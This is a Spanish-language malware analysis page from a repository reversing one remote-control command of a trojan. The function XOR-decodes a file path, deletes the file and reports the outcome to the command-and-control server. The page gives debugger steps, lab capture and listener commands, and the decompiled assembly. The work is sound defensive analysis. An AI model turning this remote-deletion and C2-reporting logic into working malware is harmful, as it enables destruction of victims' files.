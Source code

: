 # FUN_004020A0 - Opcode 4

**Propósito principal: Eliminar un archivo remoto y reportar el resultado al C2.**
 
Esta función:
- Recibe un nombre de archivo ofuscado.
- Lo descifra (XOR 0x55).
- Intenta eliminarlo con DeleteFileA.
- Notifica el éxito o el fallo al servidor remoto, probablemente parte del panel de control del atacante.

________________________________________________________________________

# Análisis dinámico de Opcode 4

## Listener en python para poder probar este opcode
[listener-opcode4](../analisis-dinamico/listener-opcode-4.py)

Creamos un archivo prueba.txt en el escritorio que es el que se va a intentar borrar.  
Activamos en la MV Remnux un listener para probar este opcode en x32dbg y hacemos una captura de los paquetes que circulan por la red:
```
sudo tcpdump -i any host 10.0.0.4
sudo pythom3 listener-opcode-4.py
```


## Inicio de función 0x004020A0 – Entrada
![Inicio](../analisis-dinamico/capturas/004020A0-opcode4.png)
- ECX = param_2 → puntero a la ruta XOReada.
- Clic dcho en ECX → Follow in Dump. Vemos el envío del host C2 ofuscado.
- En la dirección de memoria [ESP+8] vemos el envío del host C2 ofuscado.


## 0x004020B7 – Justo tras el bucle XOR
![Final bucle XOR](../analisis-dinamico/capturas/004020B7-opcode4.png)
- La ruta ya está en claro en ECX.
- GUI: Follow in Dump → ECX para ver la ruta a borrar.

## 0x004020B8 – DeleteFileA
![DeleteFileA](../analisis-dinamico/capturas/opcode4-prueba.txt.png)
- Step over (F8) para ejecutar el borrado.
![DeleteFileA](../analisis-dinamico/capturas/opcode4-prueba.tx-borrado.png)

## 0x004020BE – test eax,eax (resultado)
- EAX != 0 → éxito.  
![Exito borrado fichero](../analisis-dinamico/capturas/004020BE-opcode4.png)

- EAX == 0 → fallo. Si hacemos un reset en x32dbg y volvemos a ejecutar el opcode 4, como ya está borrado el documento prueba.txt, ahora irá por la rama del fallo.
![Fallo borrado fichero](../analisis-dinamico/capturas/004020BE-con-fallo-opcode4.png)


## Comunicación en el Host C2
![opcode4-1](../analisis-dinamico/capturas/opcode4-escucha.png)

____________________________________________
## [>> Ir al Opcode 5 >>](FUN_004020F0-opcode5.md)
____________________________________________
# FUN_004020A0 Decompilada

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __cdecl FUN_004020a0(undefined4 param_1, LPCST
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[0x4]:4   param_1
             LPCSTR            Stack[0x8]:4   param_2                                 XREF[1]:     004020a0(R)  
                             FUN_004020a0                                    XREF[1]:     FUN_004012f0:0040175b(c)  
        004020a0 8b 4c 24 08     MOV        ECX,dword ptr [ESP + param_2]
        004020a4 33 c0           XOR        EAX,EAX
                             LAB_004020a6                                    XREF[1]:     004020b5(j)  
        004020a6 8a 14 08        MOV        DL,byte ptr [EAX + ECX*0x1]
        004020a9 80 f2 55        XOR        DL,0x55
        004020ac 88 14 08        MOV        byte ptr [EAX + ECX*0x1],DL
        004020af 40              INC        EAX
        004020b0 3d 00 01        CMP        EAX,0x100
                 00 00
        004020b5 7c ef           JL         LAB_004020a6
        004020b7 51              PUSH       ECX
        004020b8 ff 15 34        CALL       dword ptr [->KERNEL32.DLL::DeleteFileA]          = 00009914
                 90 40 00
        004020be 85 c0           TEST       EAX,EAX
        004020c0 6a 00           PUSH       0x0
        004020c2 6a 02           PUSH       0x2
        004020c4 74 11           JZ         LAB_004020d7
        004020c6 8b 44 24 0c     MOV        EAX,dword ptr [ESP + 0xc]
        004020ca 68 94 a1        PUSH       DAT_0040a194                                     = 30h    0
                 40 00
        004020cf 50              PUSH       EAX
        004020d0 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        004020d6 c3              RET
                             LAB_004020d7                                    XREF[1]:     004020c4(j)  
        004020d7 8b 4c 24 0c     MOV        ECX,dword ptr [ESP + 0xc]
        004020db 68 90 a1        PUSH       DAT_0040a190                                     = 31h    1
                 40 00
        004020e0 51              PUSH       ECX
        004020e1 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        004020e7 c3              RET

```

